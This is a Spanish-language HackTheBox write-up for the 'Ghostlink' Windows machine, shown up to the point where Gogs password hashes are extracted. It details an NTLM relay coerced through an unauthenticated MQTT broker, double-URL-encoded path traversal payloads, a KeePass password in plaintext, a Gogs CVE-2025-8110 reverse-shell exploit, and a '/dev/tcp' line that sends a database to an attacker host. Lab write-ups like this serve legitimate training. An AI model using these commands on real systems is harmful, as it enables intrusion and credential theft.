# Ghostlink HackTheBox (Hard)

# Contexto de la maquina
## Trayectoria Ghostlink

<figure><figcaption></figcaption></figure>

## Descripción

**Ghostlink** es una máquina Windows de dificultad **Hard** que simula un entorno de infraestructura crítica con un Domain Controller de Active Directory. La cadena de compromiso es larga y requiere correlacionar información de múltiples fuentes: un broker MQTT expuesto públicamente, subdominios descubiertos en los mensajes del broker, un NTLM Relay mediante SSRF forzado por MQTT, un LFI con doble codificación URL en una aplicación de archivo seguro, una base de datos KeePass descubierta mediante análisis forense del registro de Windows, y finalmente una cadena de ataques de PKI de Active Directory (ESC11) que termina con el compromiso total del dominio.

La máquina es especialmente interesante porque el broker MQTT actúa como pivote central: primero filtra subdominios internos en los mensajes de telemetría, luego se usa como canal para forzar conexiones NTLM que dan acceso autenticado a los servicios internos, y más adelante como mecanismo de coerción para el relay ESC11.

**Objetivo**

- Descubrir subdominios internos y credenciales mediante escucha MQTT.
- Forzar autenticación NTLM vía MQTT para acceder a servicios internos como `SVC_CANARY`.
- Explotar LFI con doble codificación URL en `gpz-op26-secure` para extraer archivos del sistema.
- Encontrar y abrir la base de datos KeePass para obtener credenciales de Gogs.
- Explotar CVE-2025-8110 en Gogs para obtener shell como `git`.
- Extraer y crackear hashes de la base de datos SQLite de Gogs para pivotar a `nvirelli`.
- Crear un túnel SOCKS mediante SSH + Chisel para acceder a la red interna.
- Explotar ESC11 mediante NTLM Relay sobre ICPR para obtener el certificado de `DC01$`.
- Realizar DCSync con el hash de `DC01$` y hacer Pass-The-Hash como `Administrator`.

**Tipo de máquina**

- Plataforma: Hack The Box
- Sistema operativo: Windows / Active Directory
- Categoría principal: AD / PKI / IoT
- Componentes involucrados:
    - MQTT broker sin autenticación con telemetría de infraestructura.
    - NTLM Relay via SSRF forzado por publicación MQTT.
    - LFI con doble codificación URL en aplicación de archivo seguro.
    - NTUSER.DAT + regripper para descubrimiento de archivos.
    - Base de datos KeePass (`.kdbx`) con archivo de clave.
    - Gogs 0.13.3 con CVE-2025-8110 (Symlink Traversal).
    - SQLite de Gogs con hashes PBKDF2-HMAC-SHA256.
    - Tunnel SOCKS: SSH local + Chisel reverse.
    - Active Directory Certificate Services: ESC11 (ICPR Relay).
    - certipy-ad + impacket-ntlmrelayx + coercer para ESC11.
    - DCSync y Pass-The-Hash con evil-winrm.

**Habilidades y técnicas evaluadas**

- Enumeración de servicios con Nmap.
- Suscripción y análisis de mensajes MQTT.
- Descubrimiento de subdominios internos vía telemetría MQTT.
- NTLM Relay HTTP con impacket-ntlmrelayx en modo SOCKS.
- Forzado de autenticación NTLM mediante publicación MQTT.
- Navegación por recursos protegidos usando proxy SOCKS5 (FoxyProxy).
- Path Traversal con doble codificación URL en Windows (`%252e%252e%255c`).
- Análisis forense de NTUSER.DAT con regripper.
- Extracción y apertura de base de datos KeePass.
- Identificación de versión de Gogs mediante hash de commit.
- Explotación de CVE-2025-8110 (Symlink Traversal en Gogs).
- Extracción de hashes PBKDF2 de SQLite de Gogs.
- Conversión de hashes Gogs a formato hashcat con GogsToHashcat.
- Reducción inteligente de diccionario por política de contraseñas.
- Crackeo de PBKDF2-HMAC-SHA256 con hashcat (modo 10900).
- Tunelización SOCKS: SSH local forwarding + Chisel reverse.
- Enumeración de plantillas de certificados vulnerables con certipy-ad.
- ESC11: NTLM Relay sobre ICPR para obtener certificado de cuenta de máquina.
- Coerción de autenticación del DC con coercer.
- Autenticación con certificado PFX para obtener hash NT de `DC01$`.
- DCSync con hash de cuenta de máquina del DC.
- Pass-The-Hash como Administrator con evil-winrm.
## Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

# Escaneo de puertos

Comenzamos realizando un escaneo completo de todos los puertos TCP para identificar los servicios expuestos en la máquina objetivo. El flag `--open` nos filtra solo los puertos abiertos, `-sS` realiza un escaneo SYN (sigiloso), y `--min-rate 5000` acelera el proceso enviando al menos 5000 paquetes por segundo.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

Una vez identificados los puertos abiertos, lanzamos un segundo escaneo más detallado sobre ellos para obtener las versiones exactas de los servicios y ejecutar los scripts de detección por defecto de Nmap (`-sCV`).

```shell
nmap -sCV -p<PORTS> <IP>
```

Resultado:

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-16 11:51 +0000
Nmap scan report for 10.129.71.85
Host is up (0.036s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: ghostlink.htb)
445/tcp   open  microsoft-ds?
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP
1883/tcp  open  mqtt
| mqtt-subscribe:
|   Topics and their most recent payloads:
|     $SYS/brokers/client_status/mqttui-338af49d: {"status":"online", "username":"(null)"...}
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (WinRM)
9389/tcp  open  mc-nmf        .NET Message Framing
Service Info: Host: DC01; OS: Windows
```

El perfil de puertos es el de un **Domain Controller de Active Directory** clásico. Los más relevantes:

- **Puerto 53** → DNS, estándar en cualquier DC.
- **Puerto 88** → Kerberos, protocolo de autenticación de AD.
- **Puerto 389/636/3268** → LDAP y LDAP SSL para consultar el directorio.
- **Puerto 445** → SMB.
- **Puerto 5985** → WinRM, que usaremos al final para la shell de Administrator.
- **Puerto 1883** → **MQTT**. Este es el hallazgo más inusual y el punto de entrada de toda la cadena.

Del escaneo también extraemos el dominio (`ghostlink.htb`) y el hostname del DC (`DC01`).
## Añadir dominio al /etc/hosts

```bash
nano /etc/hosts

# Dentro del nano añadimos la siguiente línea:
<IP>            dc01.ghostlink.htb
```
## Enumeración web

Accedemos al puerto 80:

```
URL = http://<IP>/
```

Resultado:

<figure><figcaption></figcaption></figure>

Página corporativa estándar. Nada relevante directamente. El hallazgo interesante viene del puerto MQTT.
# Enumeración MQTT

<figure><figcaption></figcaption></figure>

## Suscripción al broker MQTT

**MQTT** (Message Queuing Telemetry Transport) es un protocolo de mensajería ligero diseñado para dispositivos IoT y sistemas de telemetría. Funciona con un modelo publicador/suscriptor: los dispositivos publican mensajes en «topics» y los clientes interesados se suscriben a ellos. El broker (`mosquitto`) en el puerto `1883` actúa como intermediario.

El comodín `#` suscribe a **todos** los topics activos de una vez, lo que nos da visibilidad completa de toda la telemetría que circula por el broker:

```bash
apt install mosquitto-clients
mosquitto_sub -h <IP> -t "#" -v
```

Resultado:

```json
GhostProtocolZero/network/node/healthcheck {"timestamp":"...","node":"node-1","telemetry":{"healthy":false,"url":"https://core-telecom.ghostlink.htb/keepalive",...}}
GhostProtocolZero/systems/node/domain/healthcheck {"timestamp":"...","node":"node-4","telemetry":{"healthy":true,"url":"dc01.ghostlink.htb/healthcheck",...}}
GhostProtocolZero/systems/node/repository/healthcheck {"timestamp":"...","node":"node-5","telemetry":{"healthy":true,"url":"gpz-op26-toolkits.ghostlink.htb/healthcheck","responseCode":"200",...}}
GhostProtocolZero/systems/node/secureshare/healthcheck {"timestamp":"...","node":"node-6","telemetry":{"healthy":true,"url":"gpz-op26-secure.ghostlink.htb/healthcheck","responseCode":"200",...}}
```
## Subdominios internos descubiertos

Los mensajes de telemetría revelan varios subdominios que están devolviendo `200 OK`:

- `gpz-op26-toolkits.ghostlink.htb` → IP `172.16.20.20`
- `gpz-op26-secure.ghostlink.htb` → IP `172.16.20.10`
- `dc01.ghostlink.htb` → IP `10.129.71.85`

Los añadimos todos al archivo de hosts:

```bash
nano /etc/hosts

# Dentro del nano dejamos la línea así:
<IP>            dc01.ghostlink.htb ghostlink.htb gpz-op26-toolkits.ghostlink.htb gpz-op26-secure.ghostlink.htb
```
## Análisis de los subdominios

Accedemos a cada uno:

```
URL = http://gpz-op26-toolkits.ghostlink.htb
```

Resultado:

<figure><figcaption></figcaption></figure>

Aloja una instancia de **Gogs**, una plataforma de control de versiones Git auto-hospedada similar a GitHub.

```
URL = http://gpz-op26-secure.ghostlink.htb
```

Resultado:

<figure><figcaption></figcaption></figure>

Este subdominio responde con un **HTTP Basic Auth**. Sin credenciales por el momento, lo aparcamos y nos centramos en Gogs.
## Identificación de la versión de Gogs

Para explotar Gogs necesitamos saber la versión exacta. Gogs no la muestra directamente en la interfaz, pero incluye un hash de commit en los recursos estáticos que podemos correlacionar con el repositorio público de GitHub:

```bash
curl -s http://gpz-op26-toolkits.ghostlink.htb/ | grep -E "sha|commit|version|build"
```

Resultado:

```html
<script src="/js/gogs.js?v=5084b4a9b77a506f5e287e82e945e1c6882b827a"></script>
```

Buscamos ese hash en el repositorio público de Gogs en GitHub:

```
URL = https://github.com/gogs/gogs/commit/5084b4a9b77a506f5e287e82e945e1c6882b827a
```

Resultado:

<figure><figcaption></figcaption></figure>

El commit pertenece a la versión **0.13.3** de Gogs. Buscando vulnerabilidades para esta versión encontramos el **CVE-2025-8110**.
# NTLM Relay via MQTT

<figure><figcaption></figcaption></figure>

## Vector de ataque: healthcheck como SSRF forzado

La telemetría MQTT muestra que el servidor monitorea las URLs especificadas en los mensajes. Lo crítico es que el broker no requiere autenticación, por lo que cualquier cliente puede **publicar** mensajes en cualquier topic. Si modificamos la URL del healthcheck de `gpz-op26-secure` para que apunte a nuestra máquina, el servidor Windows intentará hacer una petición HTTP hacia nosotros autenticándose con **NTLM** (la autenticación integrada de Windows).

En lugar de solo capturar el hash NTLM, usamos **ntlmrelayx** en modo SOCKS para retransmitir la autenticación directamente contra `gpz-op26-secure`, obteniendo una sesión autenticada como `SVC_CANARY` sin necesitar su contraseña:

```bash
sudo impacket-ntlmrelayx -t http://gpz-op26-secure.ghostlink.htb -smb2support -socks \
  --no-smb-server --no-wcf-server --no-raw-server --no-rpc-server --no-winrm-server
```
## Forzado de la autenticación vía MQTT

Con el relay a la escucha, publicamos un mensaje en el topic del healthcheck con nuestra IP como URL destino. Usamos `mqttui` porque `mosquitto_pub` puede dar problemas con la retención del mensaje en algunos entornos:

```bash
./mqttui -b mqtt://ghostlink.htb publish -r "GhostProtocolZero/systems/node/secureshare/healthcheck" \
  '{"timestamp":"2026-03-03-09:26:21","node":"node-6","telemetry":{"healthy":true,"url":"http://<IP_ATTACKER>","lastCheckSecAgo":45,"responseCode":"200","ip":"172.16.20.10"}}'
```

En el relay vemos:

```
[*] (HTTP): Connection from 10.129.71.85 controlled, attacking target http://gpz-op26-secure.ghostlink.htb
[*] HTTP server returned error code 200, treating as a successful login
[*] (HTTP): Authenticating connection from GHOSTLINK/SVC_CANARY@10.129.71.85 against http://gpz-op26-secure.ghostlink.htb SUCCEED [1]
[*] SOCKS: Adding HTTP://GHOSTLINK/SVC_CANARY@gpz-op26-secure.ghostlink.htb(80) to active SOCKS connection.
```

```bash
socks
```

Resultado:

```
Protocol  Target                         Username              Port
--------  -----------------------------  --------------------  ----
HTTP      gpz-op26-secure.ghostlink.htb  GHOSTLINK/SVC_CANARY  80
```
## Acceso a gpz-op26-secure via SOCKS5

Configuramos FoxyProxy en el navegador apuntando al SOCKS5 de ntlmrelayx (por defecto en `127.0.0.1:1080`):

<figure><figcaption></figcaption></figure>

Activamos el proxy y recargamos la página:

```
URL = http://gpz-op26-secure.ghostlink.htb/
```

Resultado:

<figure><figcaption></figcaption></figure>

El servidor acepta nuestra conexión autenticada como `SVC_CANARY` sin pedirnos contraseña. Somos el servidor interno.
# LFI con doble codificación URL

<figure><figcaption></figcaption></figure>

## Descubrimiento del endpoint de descarga

Explorando la aplicación encontramos que permite subir y descargar archivos. La URL de descarga tiene la forma:

```
http://gpz-op26-secure.ghostlink.htb/api/download/c5wxsbupo7aj.enc
```
## Path Traversal con doble codificación

En sistemas Windows, las rutas usan barras invertidas (`\`). El servidor decodifica la URL una vez antes de validar la ruta. Si codificamos los caracteres de path traversal (`../` → `%2e%2e%5c`) con codificación URL, el servidor los decodifica y los bloquea. Pero si codificamos el símbolo de porcentaje también (`%` → `%25`), obtenemos doble codificación:

- `..` → `%252e%252e` (el `%25` se decodifica a `%`, produciendo `%2e%2e` que luego se decodifica a `..`)
- `\` → `%255c` (el `%25` se decodifica a `%`, produciendo `%5c` que luego se decodifica a `\`)

Verificamos con el archivo `hosts` de Windows:

```
URL = http://gpz-op26-secure.ghostlink.htb/api/download/%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255cWindows%255cSystem32%255cdrivers%255cetc%255chosts
```

```bash
cat _.._.._.._.._.._.._.._.._.._.._.._Windows_System32_drivers_etc_hosts.enc
```

Resultado:

```
# Copyright (c) 1993-2009 Microsoft Corp.
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
...
```

El LFI funciona. Tenemos lectura arbitraria de archivos del sistema de archivos de Windows.
## Análisis del NTUSER.DAT para encontrar archivos recientes

Descargamos el registro de usuario de `svc_canary` para analizar su actividad reciente:

```
URL = http://gpz-op26-secure.ghostlink.htb/api/download/%252e%252e%255c[...]%255cUsers%255csvc_canary%255cNTUSER.DAT
```

**NTUSER.DAT** es el archivo de registro de Windows que almacena la configuración y preferencias del usuario, incluyendo los documentos recientemente abiertos. Lo analizamos con **regripper**, una herramienta forense que parsea el registro de Windows y extrae información estructurada:

```bash
sudo apt install regripper
regripper -r _.._.._.._.._.._.._.._.._.._Users_svc_canary_NTUSER.DAT.enc -a
```

Del extenso output extraemos la sección de documentos recientes:

```
Software\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs\.zip
  0 = db.zip
```
## Localización de la ruta completa vía archivo .lnk

El NTUSER.DAT nos dice que `svc_canary` abrió recientemente `db.zip`, pero no nos da la ruta completa. En Windows, los archivos recientes se almacenan como accesos directos (`.lnk`) en `AppData\Roaming\Microsoft\Windows\Recent`. Los archivos `.lnk` contienen la ruta completa del archivo original en texto plano:

```
URL = http://gpz-op26-secure.ghostlink.htb/api/download/%252e%252e%255c[...]%255cUsers%255csvc_canary%255cAppData%255cRoaming%255cMicrosoft%255cWindows%255cRecent%255cdb%252ezip%252elnk
```

Leemos el contenido del `.lnk`:

```
C:\Users\svc_canary\Documents\Operations\Management\db.zip
```
## Descarga de la base de datos KeePass

<figure><figcaption></figcaption></figure>

Con la ruta completa identificada, descargamos el ZIP:

```
URL = http://gpz-op26-secure.ghostlink.htb/api/download/%252e%252e%255c[...]%255cUsers%255csvc_canary%255cDocuments%255cOperations%255cManagement%255cdb%252ezip
```

```bash
unzip _.._.._.._.._.._.._.._.._.._Users_svc_canary_Documents_Operations_Management_db.zip.enc
```

Resultado:

```
inflating: db.kdbx
inflating: .key.keyx
```

Obtenemos dos archivos: la base de datos KeePass (`db.kdbx`) y un archivo de clave (`.key.keyx`). KeePass permite proteger las bases de datos con contraseña, archivo de clave, o ambos. En este caso solo hay archivo de clave, sin contraseña maestra adicional.

Renombramos el archivo de clave (el punto inicial lo hace oculto en Linux) y abrimos la base de datos:

```bash
mv .key.keyx key.keyx
sudo apt install keepass2
keepass2 db.kdbx
```

En la interfaz de KeePass seleccionamos autenticación por archivo de clave y apuntamos a `key.keyx`.

<figure><figcaption></figcaption></figure>
## Extracción de credenciales de KeePass

En la entrada `Toolkits Repository` encontramos:

<figure><figcaption></figcaption></figure>

```
User: vroth
Pass: mOo03jpsqx8JQYMBwvFP
```

En la papelera de reciclaje de KeePass hay además un adjunto PDF llamado `passpol.pdf` con la política de contraseñas del dominio:

<figure><figcaption></figcaption></figure>

- Longitud mínima: **20 caracteres**
- Complejidad: **activada** (mayúsculas, minúsculas, números y símbolos)

Guardamos esto para más adelante.

Probamos las credenciales en Gogs:

<figure><figcaption></figcaption></figure>

Funcionan. Ahora podemos explotar el CVE-2025-8110.
# Escalate user git

<figure><figcaption></figcaption></figure>

## CVE-2025-8110 — Symlink Traversal en Gogs 0.13.3

El **CVE-2025-8110** afecta a Gogs 0.13.3 y permite a un usuario autenticado crear un repositorio con un enlace simbólico que apunta a rutas arbitrarias fuera del directorio del repositorio. Cuando el servidor de Gogs procesa ese repositorio, sigue el enlace simbólico y expone o escribe en el archivo destino, resultando en RCE con los privilegios del proceso Gogs (`git`).

El exploit está disponible en:

URL = [Exploit GitHub CVE-2025-8110](https://github.com/zAbuQasem/gogs-CVE-2025-8110)
## Modificación del exploit

El exploit intenta registrar un nuevo usuario por defecto. Como ya tenemos credenciales, comentamos esa línea y sustituimos las credenciales por las de `vroth`:

```python
# register(session, args.url, username, password)   ← comentar esta línea

username = "vroth"
password = "mOo03jpsqx8JQYMBwvFP"
```
## Obtención de la reverse shell

Nos ponemos a la escucha:

```bash
nc -lvnp <PORT>
```

Ejecutamos el exploit:

```bash
python3 CVE-2025-8110.py -u http://gpz-op26-toolkits.ghostlink.htb/ -lh <IP_ATTACKER> -lp <PORT_ATTACKER>
```

Info:

```
[+] Authenticated successfully
Token generation status: 200
[+] Application token: ee12c3d1338669c393261f7f767750d834a98cf1
Repo creation status: 201
[master 4b2d528] Add malicious symlink
[+] Exploit sent, check your listener!
```

Si volvemos donde tenemos la escucha:

```
listening on [any] 7777 ...
connect to [10.10.15.11] from (UNKNOWN) [10.129.71.85] 49814
git@gpz-op26-toolkits:~/data/tmp/local-repo/13$ whoami
git
```

Somos `git`. Sanitizamos la TTY.
## Sanitizacion shell (TTY)

La shell obtenida a través de una reverse shell suele ser muy limitada: no tiene autocompletado, no permite usar atajos de teclado como `Ctrl+C` sin matar la sesión, y en general es bastante incómoda. Por eso realizamos el siguiente proceso para convertirla en una TTY completamente interactiva:

```shell
script /dev/null -c bash
```

```shell
# Suspendemos el proceso con Ctrl+Z
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Consultamos las dimensiones de nuestra terminal local
stty size

# Ajustamos las dimensiones de la shell remota para que coincidan
stty rows <ROWS> columns <COLUMNS>
```
# Escalate user nvirelli

<figure><figcaption></figcaption></figure>

## Extracción de la base de datos SQLite de Gogs

En el directorio home de `git` encontramos la base de datos SQLite de Gogs en `/opt/gogs/data/gogs.db`. La transferimos a nuestra máquina atacante:

```bash
# Máquina atacante
nc -lvnp 7755 > gogs.db

# Máquina víctima
cat /opt/gogs/data/gogs.db > /dev/tcp/<IP_ATTACKER>/7755
```
## Extracción de hashes de usuarios

```bash
sqlite3 gogs.db "select username, passwd, salt, rands from user;"
```

El usuario que nos interesa es `nvirelli`, que tiene presencia en el sistema operativo. Sus campos relevantes son:

- **Hash**: `8d9b3a01c3a0260b39db011aed1dbf239b8b1b28af6141f28aa01d3b3ab8ffd4408bc5b9065ff957e716375a7bec1755d3e8`
- **Salt (rands)**: `DW3YdxPy25`

Gogs almacena las contraseñas con **PBKDF2-HMAC-SHA256** (10.000 iteraciones), lo que hace el crackeo lento pero factible.
